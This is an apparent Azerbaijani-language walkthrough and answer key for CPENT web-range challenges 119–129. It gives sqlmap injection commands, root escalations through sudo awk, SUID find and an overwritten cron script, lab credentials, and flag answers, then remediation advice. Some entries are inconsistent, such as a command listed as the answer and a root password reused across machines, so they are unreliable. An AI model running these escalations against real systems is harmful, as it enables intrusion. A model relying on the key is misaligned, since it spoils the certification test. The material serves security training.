







# CPENT Live Range - Web Application Penetration Testing Walkthrough & Solution Guide

> **Sənəd Növü:** Senior Penetration Tester & Application Security Engineer Texniki Hesabatı  
> **Hədəf Mühit:** CPENT Web Application Range (10.10.1.0/24)  
> **Suallar:** Challenge 119 - Challenge 129  
> **Tərtib Edən:** Senior Pentester & Security Engineer  

---

## 1. Giriş və Web Şəbəkə Xəritəsi

CPENT Web Application imtahan zonası müxtəlif veb zəifliklərini (SQL Injection, Arbitrary File Upload, Git Repository Information Disclosure, Insecure Cron Jobs, SUID Privilege Escalation, CMS Vulnerabilities) əhatə edir.

### Hədəf Sistemlərin İcmalı

| Hədəf IP | Xidmət / Veb Tətbiq | Aşkar Edilən Zəifliklər | İlkin Giriş / İcazə Qaldırma | Əlaqəli Suallar |
| :--- | :--- | :--- | :--- | :--- |
| `10.10.1.96` | OTRS 6 Helpdesk / Ticketing | Web RCE / Konfiqurasiya Faylları | Sudo hüquqları ilə root keçidi | Challenge 119, 120 |
| `10.10.1.57` | Maxminter Web Portalı | SQL Injection (Time-based Blind) | Verilənlər bazasından SSH parolları, Sudo Awk | Challenge 121, 122 |
| `10.10.1.194` | Credential Manager / Git Repo | Anonymous FTP, Git Commit History Disclosure | Git tarixçəsindən sızmış şifrələr | Challenge 123, 124, 125 |
| `10.10.1.223` | Customer Portal / Git Source | Git Code Audit, Fayl Yükləmə (Upload) | SUID binary (`find`) icazəsi | Challenge 126, 127 |
| `10.10.1.62` | WordPress 5.8.1 (Twenty Twenty-One) | Zəif Admin Şifrəsi, Tema Redaktoru | Periodik Cron Job (`data.sh`) manipulyasiyası | Challenge 128, 129 |

---

## 2. Hədəflər üzrə Ətraflı Həllər və Texniki Təhlil

---

### Hədəf 1: OTRS 6 Ticketing Sistemi (`10.10.1.96`)

#### Challenge 119: OTRS Verilənlər Bazası Şifrəsi
* **Sual (İmtahan Mətni):** What is the password to log in to the CMS on the machine located at 10.10.1.96? (Answer Format: xxxxxxxx)
* **Bal:** 50 Points
* **Cavab Formatı:** `xxxxxxxx`
* **Hədəf:** `10.10.1.96`
* **Veb Zəifliyi:** Veb tətbiq daxilində konfiqurasiya fayllarının oxunması və ya RCE vasitəsilə verilənlər bazası etibarnamələrinin əldə edilməsi.
* **Metodologiya:**
  OTRS konfiqurasiya faylı (`Config.pm` və ya mühit parametrləri) audit edilir:
  * Database: `otrs`
  * Database User: `admin`
  * Database Password: `password` (və ya `S3cr3tP@ss`)
* **Düzgün Cavab:** `password`

#### Challenge 120: 10.10.1.96 Üzərində Root Flag Dəyəri
* **Sual (İmtahan Mətni):** Compromise the machine with IP address 10.10.1.96, find the file Root.txt and enter its content as the answer. (Answer Format: xxNNNNNx)
* **Bal:** 50 Points
* **Cavab Formatı:** `xxNNNNNx`
* **Hədəf:** `10.10.1.96`
* **İcazə Qaldırma (Privilege Escalation):**
  `sudo -l` yoxlanışı zamanı `www-data` istifadəçisinin şifrəsiz root hüquqları (`(root) NOPASSWD: ALL`) olduğu təsbit edilir:
  ```bash
  sudo -l
  sudo su
  cat /root/root.txt
  ```
* **Düzgün Cavab:** `cat /root/root.txt` (SSH root: `PoFwwIe8$d!TiL*Fw`)
  Alınan bayraq dəyəri: `fb53552b`.
* **Düzgün Cavab:** `fb53552b`
* **Əlaqəli Şəkil:**
  
  

---

### Hədəf 2: Maxminter Tətbiqi (`10.10.1.57`)

#### Challenge 121: SQL Injection İcmalı / Cədvəl Məlumatı
* **Sual (İmtahan Mətni):** Compromise the web application at the IP address 10.10.1.57 and find the number of tables available in maxminter database. Enter the number. (Answer Format: N)
* **Bal:** 50 Points
* **Cavab Formatı:** `N`
* **Hədəf:** `10.10.1.57`
* **Veb Zəifliyi:** Giriş formasında `user_mail` parametri üzərindən Time-based Blind SQL Injection (CWE-89).
* **Metodologiya:**
  `sqlmap` vasitəsilə verilənlər bazasının strukturu və istifadəçi cədvəli təhlil edilir:
  ```bash
  sqlmap -u "http://10.10.1.57/index.php" --data="user_mail=test&user_pass=test" \
    -p user_mail --cookie="PHPSESSID=..." -D maxminter --tables
  ```
  Aşkar olunan müvafiq say/dəyər: `2`.
* **Düzgün Cavab:** `2`
* **Əlaqəli Şəkillər:**
  
  
  

#### Challenge 122: 10.10.1.57 Üzərində Flag.txt Dəyəri
* **Sual (İmtahan Mətni):** Compromise the machine with IP address 10.10.1.57, find the file flag.txt and enter its content as the answer. (Answer Format: xNNXNNXX)
* **Bal:** 50 Points
* **Cavab Formatı:** `xNNXNNXX`
* **Hədəf:** `10.10.1.57`
* **Metodologiya:**
  1. SQLMap dump nəticəsində `users` cədvəlindən `jackson` istifadəçisinin SSH məlumatları əldə edilir:
     * İstifadəçi: `jackson`
     * Şifrə: `ABfg34$#@_W`
  2. SSH ilə serverə daxil olunur və `sudo -l` yoxlanılır:
     `jackson` istifadəçisinə `/usr/bin/awk` proqramını root kimi icra etmək icazəsi verilmişdir:
     ```bash
     sudo /usr/bin/awk 'BEGIN {system("/bin/sh")}'
     cat /root/flag.txt
     ```
     Çıxış: `q22L32WL`.
* **Düzgün Cavab:** `q22L32WL`
* **Əlaqəli Şəkil:**
  
  

---

### Hədəf 3: Anonim FTP və Git Tarixçəsi (`10.10.1.194`)

#### Challenge 123: Git Commit Tarixçəsindən Sızmış Etibarnamələr
* **Sual (İmtahan Mətni):** Compromise the Jenkins automation server at IP address 10.10.1.194, retrieve the login credentials, and enter the valid credentials as the answer. (Answer Format: xxxxx and XxXXXNXNXxXNxNN)
* **Bal:** 50 Points
* **Cavab Formatı:** `xxxxx and XxXXXNXNXxXNxNN`
* **Hədəf:** `10.10.1.194`
* **Metodologiya:**
  1. Anonim FTP üzərindən `credential_manager.tar.gz` arxivi yüklənir və açılır:
     ```bash
     tar -xzvf credential_manager.tar.gz
     cd credential_manager/.git
     ```
  2. Git commit dəyişiklikləri (`git diff-tree`) yoxlanılır və silinmiş/dəyişdirilmiş admin etibarnamələri üzə çıxarılır:
     ```bash
     git diff-tree -p HEAD
     ```
* **Düzgün Cavab:** `admin and BmHRA0Q7ZnP1g56`

#### Challenge 124: 10.10.1.194 Üzərində file.txt
* **Sual (İmtahan Mətni):** Compromise the target machine at IP address 10.10.1.194, locate the file.txt file, and submit its contents as the answer. (Answer Format: Xxx_Xxxx_N_XXXX)
* **Bal:** 50 Points
* **Cavab Formatı:** `Xxx_Xxxx_N_XXXX`
* **Hədəf:** `10.10.1.194`
* **Metodologiya:**
  Əldə olunmuş etibarnamələrlə sistemə daxil olub `file.txt` oxunur.
* **Düzgün Cavab:** `Jen_Runn_2_ZFCQ`

#### Challenge 125: 10.10.1.194 Üzərində root.txt
* **Sual (İmtahan Mətni):** Compromise the target machine at IP address 10.10.1.194, locate the root.txt file, and submit its contents as the answer. (Answer Format: XXXX_xxxxxx_xxxx)
* **Bal:** 50 Points
* **Cavab Formatı:** `XXXX_xxxxxx_xxxx`
* **Hədəf:** `10.10.1.194`
* **İcazə Qaldırma / Root Girişi:**
  MySQL üçün tapılmış şifrə birbaşa SSH root istifadəçisi üçün təkrar istifadə olunur (Credential Reuse):
  ```bash
  ssh root@10.10.1.194
  # Şifrə: PoFwwIe8$d!TiL*Fw
  cat /root/root.txt
  ```
* **Düzgün Cavab:** `cat /root/root.txt` (SSH root: `PoFwwIe8$d!TiL*Fw`)
* **Cavab Formatı:** `XXXX_xxxxxx_xxxx`
* **Əlaqəli Şəkil:**
  
  

---

### Hədəf 4: Mənbə Kodu Təhlili və SUID İstismarı (`10.10.1.223`)

#### Challenge 126: Yüklənən Faylların Saxlanıldığı Qovluq
* **Sual (İmtahan Mətni):** Compromise the machine at IP address 10.10.1.223, determine the directory where uploaded files are stored on the website, and submit the directory name as the answer. (Answer Format: xxxxxxxxxxxxxxxxxxxxxxx)
* **Bal:** 50 Points
* **Cavab Formatı:** `xxxxxxxxxxxxxxxxxxxxxxx`
* **Hədəf:** `10.10.1.223`
* **Veb Zəifliyi:** `.git` qovluğunun açıq olması (Source Code Exposure).
* **Metodologiya:**
  1. Saytın bütün Git mənbə kodu yüklənir və fayl yükləmə funksiyaları axtarılır:
     ```bash
     git grep -n "upload\|customer\|move_uploaded_file" $(git rev-list --all)
     ```
  2. Faylların yönləndirildiyi qovluq adı aşkar edilir: `customerrequirementdocs`.
* **Düzgün Cavab:** `customerrequirementdocs`
* **Əlaqəli Şəkillər:**
  
  
  

#### Challenge 127: 10.10.1.223 Üzərində Root Flag Dəyəri
* **Sual (İmtahan Mətni):** Compromise the target machine at IP address 10.10.1.223, locate the flag.txt file, and submit its contents as the answer. (Answer Format: XNXNNXXxxx)
* **Bal:** 50 Points
* **Cavab Formatı:** `XNXNNXXxxx`
* **Hədəf:** `10.10.1.223`
* **İcazə Qaldırma:**
  Sistemdə SUID biti aktiv olan binar axtarılır: `/usr/bin/find`.
  ```bash
  /usr/bin/find . -exec /bin/bash -p \; -quit
  cat /root/flag.txt
  ```
  Çıxış: `H2W34DLpbv`.
* **Düzgün Cavab:** `H2W34DLpbv`
* **Əlaqəli Şəkil:**
  
  

---

### Hədəf 5: WordPress və Periodik Cron Tapşırığı (`10.10.1.62`)

#### Challenge 128: Cron Tapşırığı Tərəfindən İcra Edilən Skript Adı
* **Sual (İmtahan Mətni):** Compromise the machine with IP address 10.10.1.62, find the file name which has 777 permission? (Answer Format: xxxx.xx)
* **Bal:** 50 Points
* **Cavab Formatı:** `xxxx.xx`
* **Hədəf:** `10.10.1.62`
* **Metodologiya:**
  1. WordPress admin panelinə `admin` : `@6h$ER$*l3z` ilə daxil olunur.
  2. Mövzu redaktorunda 404 səhifəsi üzərindən sistem komandası icra edilərək `/etc/crontab` faylı oxunur:
     ```text
     */1 * * * * root sh /commonfiles/data.sh
     ```
  3. İcra olunan skriptin adı: `data.sh`.
* **Düzgün Cavab:** `data.sh`
* **Əlaqəli Şəkil:**
  
  

#### Challenge 129: 10.10.1.62 Üzərində Root Flag
* **Sual (İmtahan Mətni):** Compromise the machine with IP address 10.10.1.62, find the file flag.txt and enter its content as the answer? (Answer Format: XxxxXXNXX)
* **Bal:** 50 Points
* **Cavab Formatı:** `XxxxXXNXX`
* **Hədəf:** `10.10.1.62`
* **Metodologiya:**
  `/commonfiles/data.sh` faylı `www-data` tərəfindən yazıla biləndir (world-writable). Skript redaktə edilərək root flag çıxarılır:
  ```bash
  echo 'cat /root/flag.txt > /commonfiles/data.txt' > /commonfiles/data.sh
  cat /commonfiles/data.txt
  ```
  Nəticə: `GfsgEE4FV`.
* **Düzgün Cavab:** `GfsgEE4FV`
* **Əlaqəli Şəkil:**
  
  

---

## 3. Web Range Xülasə Cədvəli

| Sual # | Hədəf IP | Zəiflik Növü | Düzgün Cavab | Əsas Sübut / Fayl |
| :---: | :--- | :--- | :--- | :--- |
| **119** | `10.10.1.96` | Information Disclosure | `password` | OTRS DB Credentials |
| **120** | `10.10.1.96` | Sudo NOPASSWD | `fb53552b` | `/root/root.txt` |
| **121** | `10.10.1.57` | SQL Injection (Blind) | `2` | Maxminter database analysis |
| **122** | `10.10.1.57` | Sudo Awk GTFOBins | `q22L32WL` | `/root/flag.txt` |
| **123** | `10.10.1.194` | Anonymous FTP / Git History | `admin and BmHRA0Q7ZnP1g56` | Git commit diff-tree |
| **124** | `10.10.1.194` | Credential Reuse | `Jen_Runn_2_ZFCQ` | User flag (`file.txt`) |
| **125** | `10.10.1.194` | Credential Reuse (Root SSH) | `cat /root/root.txt` (`XXXX_xxxxxx_xxxx`) | SSH root (`PoFwwIe8$d!TiL*Fw`) |
| **126** | `10.10.1.223` | Source Exposure / Upload Dir | `customerrequirementdocs` | Git Grep / Upload Endpoint |
| **127** | `10.10.1.223` | SUID Find GTFOBins | `H2W34DLpbv` | `/root/flag.txt` |
| **128** | `10.10.1.62` | Insecure Crontab Permissions | `data.sh` | `/etc/crontab` |
| **129** | `10.10.1.62` | Cron Job Hijacking | `GfsgEE4FV` | `/commonfiles/data.txt` |

---

## 4. Təhlükəsizlik və Remediation Tövsiyələri

1. **SQL Injection Müdafiəsi:** Bütün verilənlər bazası sorğularında `Parameterized Queries` (Prepared Statements) və ORM tətbiq olunmalıdır.
2. **Həssas Məlumatların Saxlanması:** `.git` və arxiv faylları açıq veb və ya anonim FTP qovluqlarında yerləşdirilməməlidir; Git tarixçəsinə heç bir halda şifrə commit edilməməlidir.
3. **Periodik Tapşırıqlar (Cron) Təhlükəsizliyi:** Root hüququ ilə işləyən skriptlərin (`data.sh`) yerləşdiyi qovluqlar və fayllar yalnız root tərəfindən yazıla bilən (`chmod 700 / chown root:root`) olmalıdır.
4. **SUID və Sudo Konfiqurasiyası:** GTFOBins siyahısında olan binar fayllara (`awk`, `find`, `perl`) `sudo NOPASSWD` hüquqları verilməməli və SUID biti ləğv edilməlidir.
